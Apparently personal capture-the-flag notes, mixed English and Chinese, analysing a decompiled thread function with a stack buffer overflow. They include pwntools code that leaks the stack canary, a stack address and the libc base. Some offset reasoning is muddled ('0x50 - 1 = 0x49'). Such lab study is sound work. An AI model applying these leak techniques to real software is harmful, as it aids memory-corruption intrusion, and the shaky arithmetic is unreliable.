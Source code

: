 ```cpp
{
  int v3; // [rsp+10h] [rbp-60h]
  unsigned int seconds; // [rsp+14h] [rbp-5Ch]
  _QWORD dest[10]; // [rsp+20h] [rbp-50h] BYREF

  dest[9] = __readfsqword(0x28u);
  memset(dest, 0, 64);
  v3 = *(a1 + 1);
  seconds = *a1;
  memcpy(dest, *(a1 + 1), *(a1 + 2));
  while ( v3-- )
  {
    puts(dest);
    sleep(seconds);
  }
  return 0;
}
```
USAGE 

![[Pasted image 20250716220629.png]]
first need to 
CHUNKS `NUM OF THREAD`
CHUNK `TIMESLEEP` `REPEAT` `CHAR`

the customize print so I assume need to do something from here 
# 3.0 Solution
## 3.1 FIND THE LEAKING POINT 
PRINT 这边是最后把 a1 给到 dest
so 这个 dest 是 收到 rbp - 0x50
![[Pasted image 20250716221045.png]]
而且没有 \x00? 不知道 有没有关系
会把 dest 压满 然后带出后面的 value 

## 3.2 HOW TO FIND THE CANARY
因为dest 是 0x50 所以 canary 通常会在 return 前一个 so 0x50 - 1 = 0x49
```
void *__fastcall print(void *a1)
{
  int v3;                   // [rsp+10h]  → rbp - 0x60
  unsigned int seconds;     // [rsp+14h]  → rbp - 0x5C
  _QWORD dest[10];          // [rsp+20h]  → rbp - 0x50
                            //            → rbp - 0x50 to rbp - 0x08
  dest[9] = __readfsqword(0x28u); // writes canary at rbp - 0x08
  ...
}
```
这边我直接用别人的leaking 一定要补齐 8 个 
manual
一开始 是 rc(7) 要加 b'\0'  + rc(7) 才能转 u64
```python
# leak
# must + b'\0'
canary = u64(b'\0'+rc(7))
print("canary:",hex(canary))
leak_stack = u64(b'\0'*2+ru7f())
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
dbg()
```
